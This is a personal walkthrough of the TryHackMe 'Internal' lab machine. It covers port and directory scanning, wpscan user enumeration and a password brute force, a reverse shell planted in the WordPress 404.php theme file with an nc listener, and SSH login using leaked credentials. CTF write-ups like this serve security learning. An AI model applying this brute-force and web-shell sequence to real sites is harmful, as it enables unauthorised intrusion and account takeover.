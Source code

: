## Internal
---
THM Internal Room Walkthrough: https://tryhackme.com/room/internal



## Summary
---



## Difficulties/Lessons Learned
---



## Walkthrough
---
Start by visiting the web page as well as nmapping, and directory enumeration.

```bash
nmap -sS -sV -sC -Pn 10.10.122.76 

gobuster -u http://10.10.122.76 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt dir
```

We get the following ports and directories:

```bash
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.122.76
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/blog                 (Status: 301) [Size: 311] [--> http://10.10.122.76/blog/]
/wordpress            (Status: 301) [Size: 316] [--> http://10.10.122.76/wordpress/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.122.76/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.122.76/phpmyadmin/]
```

Checking out the directories gives us some interesting info. /phpmyadmin gets us to a login page we may be able to exploit and the /wordpress directory gets us to a page with a log in button that does not work. However, on the wordpress page we can see Archives. The archive is also broken but it leads us to an interesting URL: 

```bash
http://internal.thm/blog/index.php/2020/08/
```

Maybe if we iterate through various months, we can discover something. Also, replacing internal.thm with out IP actual resolves to a website and also gives us the Wordpress log in site! Although the pages now resolve, it is still quite broken so let's focus on something else first. 

SSHing with anonymous or admin/admin does not seem to work. Let's try enuming the ports again but scanning all of them.

This does not give us more ports.

Let's try admin/admin on the php admin site. Interesting! Although the password does not work, we get this error: 

![](attachments/Pasted%20image%2020250207132551.png)

## Change of approach

At this point, nothing was working and the only thing that made sense was to go back to the internal.thm. Anytime I would replace this with the IP address, it would work. This and some further research made me realize we can just change the /etc/hosts file to account for this. 

```bash
vim /etc/hosts

# In the hosts file add the following entry (don't put the arrow) internal.thm --> <TARGET_IP>
```

Now when visiting all the links everything works. Just from looking around the site we definitely have a user named admin, since this user was seen making a post. After more research on the best way to enumerate and explpoit a WP site, I found out about wpscan to enumerate the accounts and even try to brute force login.

Using the following commands:

```bash
wpscan --url http://internal.thm/blog -e u

wpscan --url http://internal.thm/blog -U admin --passwords /usr/share/wordlists/rockyou.txt
```

We get the username admin (which we already knew) and we get the password "my2boys". Let's try loggin in on Wordpress. Log in is successful.

When navigating around wordpress we can see a private/hidden post with the following info

![](attachments/Pasted%20image%2020250207154159.png)

Let's try to login on myphp with this. Does not work. Let's try ssh. Also does not work. Let's save this info for now. 

Let's try upload a reverse shell into the theme editor under the 404.php file. Once added we set up an nc listener 

```bash
nc -nlvp 4444
```

and then access the page with the following directory /blog/wp-content/themes/twentyseventeen/404.php

We now have a reverse shell. Navigating to /home we see we have a user named aubreanna. We can't access her directory and i can't find the user.txt flag file anywhere else. After some more searching we see the wp-save.txt file in the /opt folder which tells use aubreanna's password. LEt's try sshing in with these credentials

```bash
www-data@internal:/opt$ cat wp-save.txt 
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
www-data@internal:/opt$ 
```

It works, and we find our first user flag

![](attachments/Pasted%20image%2020250207171907.png)

